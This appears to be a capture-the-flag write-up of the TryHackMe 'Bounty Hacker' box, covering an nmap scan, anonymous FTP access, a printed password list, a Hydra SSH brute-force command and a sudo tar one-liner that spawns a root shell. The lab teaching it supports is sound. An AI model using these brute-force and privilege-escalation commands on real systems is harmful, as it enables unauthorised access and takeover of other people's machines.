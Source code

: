 # 'Bounty Hacker' box writeup
## Bounty Hacker is a CTF box written by Sevuhl and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [Tar in Linux](https://www.freecodecamp.org/news/tar-in-linux-example-tar-gz-tar-file-and-tar-directory-and-tar-compress-commands/) and [Breaking restricted environment with tar](https://gtfobins.github.io/gtfobins/tar/).
# ![bg](images/background.jpg?raw=true "Title")
+ **We deploy the machine and start with an nmap scan for open ports**


``nmap -sV -sC -oN scan1 10.10.229.13``
      
+ **We can see 3 open ports with some well known services: ftp, ssh and http, all opened on default ports**

![1](images/nmap_scan.jpg?raw=true "Nmap_scan")

+ **Next, we will try to connect to the ftp service using the default user anonymous**

![2](images/ftp_login.jpg?raw=true "Ftp_login")

+ **Listing the directory, we can observe two .txt files uploaded so let's get them**



``mget *.txt``

+ **Reading the task.txt file, we can find out who wrote the task list, giving us the first task answer. We list the second txt file, named locks.txt, and we can see multiple strings which seems to be some passwords kept in the ftp server**

```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
...
```

+ **Let's try to use this password file to connect on the ssh service, using simultanously the user found in the previous task. The Hydra tool has a brute-force option to crack the login of the ssh service, so we can use it**

``hydra -l lin -P locks.txt 10.10.229.13 -t 4 ssh``


+ **After we execute the brute-force process, Hydra give us the needed user password**

# ![3](images/hydra_brute.jpg?raw=true "Hydra")

+ **With the given credentials, we will connect to the ssh service**

``ssh lin@10.10.229.13``

+ **We land on the wanted system so we can read our first user flag**

# ![4](images/first_flag.jpg?raw=true "first_flag")

+ **Running the** ``sudo -l`` **command on @lin user and listing the allowed commands, we can see that user @lin may run the following commands on bountyhacker:**
      ``(root) /bin/tar``
  
# ![5](images/whoami.jpg?raw=true "whoami")

+ **Tar is a linux utilitary, used by a lot of unix system administrators to create compressed archive files or to extract them. Looking into the tar manual, we can see that it has an option that can execute a command during the compress-program**

# ![6](images/tar.jpg?raw=true "tar manual")

+ **That being said, let's try to break our environment and spawn a shell for a privilege escalation, getting access to the @root user**

``sudo tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'``

# ![Alt text](images/root_flag.jpg?raw=true "root_flag")

+ **We got our root flag and finished the box. It was an easy box but a good one for the beginners, focusing on simple utilitary and default linux apps which can escalate to the sys admin and also the idea of unconfigured credentials on services - like ftp**
**Many thanks to Sevuhl, the creator of this box**

        
